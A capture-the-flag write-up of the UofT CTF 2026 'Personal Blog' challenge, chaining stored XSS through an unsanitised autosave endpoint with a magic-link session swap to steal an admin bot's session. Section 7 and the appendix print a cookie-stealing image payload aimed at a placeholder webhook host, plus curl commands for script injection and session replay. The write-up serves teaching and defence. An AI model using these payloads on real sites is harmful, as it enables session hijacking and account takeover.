


# UofT CTF 2026 - Personal Blog

## Personal Blog CTF Writeup: XSS to Session Hijacking

Hi, I’m <mark style="color:green;">0xreru</mark> from team <mark style="color:red;">Lil:Pwny</mark> — a cybersecurity enthusiast student based in the Philippines.
\
One of the challenges that really stood out to me was **Personal Blog**, which combined a simple feature set with surprisingly deep security implications.

### 1. Challenge Overview

The **Personal Blog** challenge revolves around a small blogging platform with user accounts, blog posts, and administrator moderation. The core objective: chain client-side behavior into **session compromise** of the admin account to recover the flag.

The platform supports:

* User registration & login
* Post creation and editing
* “Magic link” authentication
* Reporting URLs to an admin bot

Winning required chaining:

1. Bypassing client-side sanitization
2. Stored XSS via autosave
3. Admin bot authenticated browsing
4. Magic link session swapping
5. Cookie exfiltration + session reuse

Result: **XSS → session hijack → flag**

***

### 2. Recon & Surface Mapping

Initial surface mapping showed:

* A rich-text editor
* Autosave behavior
* Report-to-admin feature
* Magic links
* Bot using authenticated context

Separately harmless, but prime for chaining.

***

### 3. Editor & Sanitization Model

<figure><figcaption></figcaption></figure>

> image above generated by Gemini

The editor periodically executed:

```javascript
setInterval(async () => {
  const clean = window.DOMPurify.sanitize(editor.innerHTML);
  await postJson('/api/autosave', { postId, content: clean });
}, 30000);
```

Observations:

1. Sanitization only client-side
2. Autosave runs automatically
3. Draft vs Saved content distinction

***

### 4. Autosave Vulnerability

Backend revealed two distinct endpoints:

#### Sanitized path (`/api/save`)

```javascript
const sanitized = sanitizeHtml(rawContent);
post.savedContent = sanitized;
post.draftContent = sanitized;
```

#### Vulnerable path (`/api/autosave`)

```javascript
post.draftContent = rawContent; // no sanitization
```

Rendered via:

```
draftContent -> editor DOM
```

This produced **stored XSS** in `/edit/<post-id>`.

***

### 5. Admin Bot Logic & Constraints

Bot behavior:

1. Log in as admin
2. Visit reported URL

Constraints:

* Local-only URLs
* Proof-of-Work for submissions

Authenticated browsing + stored XSS = valuable primitive.

***

### 6. Magic Link Session Interaction

Magic links performed:

1. Save old session → `sid_prev`
2. Issue new session → `sid`
3. Redirect to target URL

Outcome for a visiting browser:

```
sid_prev = previous session (admin)
sid = new session (attacker)
```

If the admin bot visited the magic link → its admin session populated `sid_prev`.

This turned XSS into privileged session access.

***

### 7. Payload Design & Exfil Strategy

CORS blocked `fetch()`-based outbound requests, so payloads switched to **image-based exfil**:

```javascript
new Image().src = `https://<webhook>/ping?c=${encodeURIComponent(document.cookie)}`;
```

Outbound-only, CORS-safe, works reliably in browsers and headless bots.

***

### 8. Full Exploit Chain

<figure><figcaption></figcaption></figure>

> image above generated by Gemini

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Attack steps tutorial-style:

1. Register & create post
2. Send stored XSS via `/api/autosave`
3. Generate magic link → redirect to editor
4. Report URL to admin
5. Bot logs in → session swap → redirect
6. XSS executes → cookie exfil
7. Replay `sid_prev` to `/flag`

***

### 9. Lessons Learned

Key takeaways:

* Client-side sanitization ≠ security
* Session state transitions matter
* Magic link login behaviors can leak privilege
* CORS does not block outbound leaks
* Feature composition can create exploitable chains

***

### 10. Closing Notes

<figure><figcaption></figcaption></figure>

This challenge demonstrated how small inconsistencies — autosave vs save, magic links vs cookies — combine into powerful exploitation opportunities.

If you have any questions feel free to dm me [xreru](https://app.gitbook.com/u/sV63NjWn0kbva4C066LUjfLD3y92 "mention") or in [linkedin](https://www.linkedin.com/in/reru/)

***

### 11. Payloads & Commands (Appendix)

#### Stored XSS Payload

```javascript
new Image().src = `https://<webhook>/webhook-token?cookie=${encodeURIComponent(document.cookie)}`;
```

#### Magic Link Format

```
http://<challenge-host>/magic/<token>?redirect=/edit/<post-id>
```

#### Autosave Injection (curl)

```bash
curl -X POST \
  -H 'Content-Type: application/json' \
  -H 'Cookie: sid=<attacker-session>' \
  --data '{"postId":"<post-id>","content":"<script>/* XSS */</script>"}' \
  http://<challenge-host>/api/autosave
```

#### Flag Retrieval

```bash
curl -b 'sid=<admin-session>' http://<challenge-host>/flag
```

***

### 12. Study References

1. [https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CORS)
2. [https://www.intigriti.com/researchers/blog/hacking-tools/exploiting-cors-misconfiguration-vulnerabilities](https://www.intigriti.com/researchers/blog/hacking-tools/exploiting-cors-misconfiguration-vulnerabilities)

<mark style="color:$success;">**Let’s connect!**</mark>\
LinkedIn: [www.linkedin.com/in/reru](https://www.linkedin.com/in/reru)
